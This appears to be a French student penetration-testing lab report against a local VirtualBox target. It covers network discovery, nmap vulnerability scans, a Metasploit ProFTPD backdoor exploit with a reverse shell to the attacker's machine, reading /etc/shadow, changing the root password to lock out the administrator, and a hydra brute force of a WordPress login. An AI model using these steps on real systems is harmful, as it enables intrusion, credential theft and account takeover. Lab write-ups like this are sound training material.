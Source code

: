 # Livrable 1
*JOUET Malo & PENCRANE Alexis*

## Rappel des objectifs

1. L'attaquant peut-il accéder aux fichiers du système d'exploitation ?
2. L'attaquant peut-il usurper l'identité du compte administrateur ?
3. L'attaquant peut-il bloquer l'accès a l'administrateur ?
4. L'attaquant peut-il modifier le contenu du site web ?
5. L'attaquant peut-il bloquer l'accès a l'administrateur a l'outil de conception de site web ?

## Etape 1: Decouverte de la cible

### 1.1. Decouverte du reseau

> Nous savons que la machine cible ce trouve sur le même réseau que notre machine nous allons donc utiliser le commande netdiscover pour trouver l'adresse IP de la machine cible.

```bash
netdiscover -i eth1 -r 192.168.56.0/24
```

| IP            | At MAC Address       | Count | Len | MAC Vendor / Hostname     |
|---------------|----------------------|-------|-----|---------------------------|
| 192.168.56.1  | 0a:00:27:00:00:0c    | 1     | 60  | Unknown vendor            |
| 192.168.56.102| 08:00:27:7a:fa:4f    | 1     | 60  | PCS Systemtechnik GmbH    |

**Nous voyons que la machine cible a pour adresse IP 192.168.56.102**

### 1.2. Decouverte des services

> Nous allons utiliser la commande nmap pour scanner les ports ouverts sur la machine cible. Nous allons d'abord commencer par un scan rapide pour voir les ports ouverts.

```bash
nmap -p- 192.168.56.102 -vv -oN scan_global.txt
```

**Nous avons découvert 2 ports ouverts sur la machine cible:**
- 21 (ftp)
- 22 (ssh)
- 80 (http)

[Scan global](./file/scan_global.txt)

> Nous allons maintenant scanner les services qui sont derrière ces ports.

```bash
nmap -p 21 -sV --script vuln 192.168.56.102 -vv -oN scan_ftp.txt
```

**On peut observer dans le résultat du scan qu'il existe un grand nombre de vulnérabilité sur ce service et qu'il y a également une backdoor fonctionelle tester par nmap.**

[Scan ftp](./file/scan_ftp.txt)

```bash
nmap -p 22 -sV --script vuln 192.168.56.102 -vv -oN scan_ssh.txt
```

**Sur ce service nmap n'a tester aucune vulnérabilité, malgré qu'il y en ai un grand nombre.**

[Scan ssh](./file/scan_ssh.txt)

```bash
nmap -p 80 -sV --script vuln 192.168.56.102 -vv -oN scan_http.txt
```

**Sur ce service nmap a repérer plusieurs vulnérabilité, il a également fait une énumération des fichiers et des dossiers du site web qui nous apprend la présence d'un répertoire /secret.**

[Scan http](./file/scan_http.txt)

---
**Maintenant que nous avons découvert les services qui sont derrière les ports ouverts nous allons pouvoir passer a l'utilisation des outils de pentest.**
---

## Etape 2: Introduction dans la cible

### 2.1. Introduction dans la cible

> Nous allons utiliser le service ftp pour nous connecter a la machine cible et plus particulierement la backdoor repérer précedement.
>
> Comme nous connaisons deja la version  nous allons chercher un exploit avec metasploit.

```bash
msfconsole

search type:exploit proftpd 133c
```

| # | Name                                   | Disclosure Date | Rank      | Check | Description                                   |
|---|----------------------------------------|-----------------|-----------|-------|-----------------------------------------------|
| 0 | exploit/unix/ftp/proftpd_133c_backdoor | 2010-12-02      | excellent | No    | ProFTPD-1.3.3c Backdoor Command Execution    |

**Metasploit nous propose un exploit qui correspond parfaitement a notre recherche. Nous alons donc pouvoir le mettre en oeuvre.**

```bash
use exploit/unix/ftp/proftpd_133c_backdoor

# On configure l'addresse de la cible
set RHOST 192.168.56.102

# On configure le payload utilisé
set PAYLOAD set PAYLOAD cmd/unix/reverse

# On configure l'addresse IP de notre machine pour la connection en reverse
set LHOST 192.168.56.103

# On lance l'exploit
run
```

**Nous avons maintenant un shell sur la machine cible.**

## Etape 3: Atteinte des objectifs 1,2 et 3

### 3.1. Atteinte de l'objectif 1
*Rappel: L'attaquant peut-il accéder aux fichiers du système d'exploitation ?*

> Grâce a notre connection en reverse nous avons un shell sur la machine cible. Nous allons donc pouvoir utiliser les commandes linux pour atteindre notre objectif.
>
> Comme nous somme root nous pouvons voir n'importe qu'elle fichier du système comme les fichiers des autres utilisateurs.

```bash
ls /home
# On peut voir que le dossier marlinspike existe

ls /home/marlinspike
# La commande liste bien les fichiers

# nous pouvons également utiliser la commande cat pour lire le contenu des fichiers comme le fichier /etc/shadow qui nécessite des droits root pour être lu.
cat /etc/shadow
# La commande affiche bien le contenu du fichier
```

***Ce qui signifie que nous pouvons accéder aux fichiers du système d'exploitation.***

### 3.2. Atteinte de l'objectif 2
*Rappel: L'attaquant peut-il usurper l'identité du compte administrateur ?*

> En executant la commande id nous pouvons voir que nous somme root. Nous allons donc pouvoir usurper l'identité du compte administrateur.

```bash
id
```

*uid=0(root) gid=0(root) groups=0(root),65534(nogroup)*

***Ce qui signifie que nous somme root et que nous usuperons l'identité du compte administrateur.***

### 3.3. Atteinte de l'objectif 3
*Rappel: L'attaquant peut-il bloquer l'accès a l'administrateur ?*

> Nous allons utiliser la commande passwd pour changer le mot de passe du compte root et de marlinspike.

```bash
passwd root
# On change le mot de passe du compte root

passwd marlinspike
# On change le mot de passe du compte marlinspike
```

***Ce qui signifie que nous pouvons bloquer l'accès a l'administrateur.***

## Etape 4: Atteinte des objectifs 4 et 5

> Les étapes étant en rapport avec le site web nous allons utiliser le service http pour atteindre les objectifs.

### 4.1. Découverte du site web

> En arrivant sur le site web nous tombons sur une page quasiment vide

![Site web](./image/site_web_accueil.png)

> Mais en nous rapelant de notre scan nmap nous savons qu'il existe une partie cacher du site dans le repertoir /secret. Nous allons donc essayer d'y accéder.

![Site web](./image/site_web_secret.png)

> Nous arrivons maintenant sur un blog wordpress. Mais pour le moments nous n'avons pas la possibilité de modifier le contenu du site web. Nous allons donc essayer de trouver un moyen d'accéder a l'interface d'administration, pour cela nous allons simplement utiliser le boutons login de la page qui nous renvoie vers /secret/wp-login.php.

![Site web](./image/site_web_login.png)

> En cherchant sur internet on peut découvrir que le login par défaut est admin. Nous allons donc utiliser hydra pour trouver le mot de passe.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr http-get://192.168.56.102/secret/wp-admin -V
```

**Hydra nous a trouver le mot de passe du compte admin: admin**

















